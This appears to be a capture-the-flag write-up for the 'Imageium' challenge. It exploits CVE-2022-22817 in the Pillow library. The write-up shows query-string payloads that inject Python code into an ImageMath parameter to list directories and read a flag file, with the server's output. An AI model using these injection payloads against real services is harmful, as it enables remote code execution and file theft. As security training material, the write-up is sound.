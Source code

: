 Imageium Writeup
===

##### Exploitation:

This challenge is about RCE in python web service.

There is a web application that uses one of the vulnerable versions of the Pillow python library. (CVE-2022-22817)

Participant have to identify the type of vulnerability and create an exploit to read the flag from a text file.


```
view-source:http://facingworlds.sstf.site/dynamic/modified?mode=__import__('os').listdir('.') -------------------------------------
ImageMath error not image object: ['secret', 'app.py', 'original.jpeg', 'pilcve.wsgi']
```

```
view-source:http://facingworlds.sstf.site/dynamic/modified?mode=__import__('os').listdir('secret') -------------------------------------
ImageMath error not image object: ['flag.txt']
```

```
view-source:http://facingworlds.sstf.site/dynamic/modified?mode=open('./secret/flag.txt','r').read()
-------------------------------------
ImageMath error not image object: SCTF{3acH_1m@ge_Has_iTs_0wN_MagIC}
```
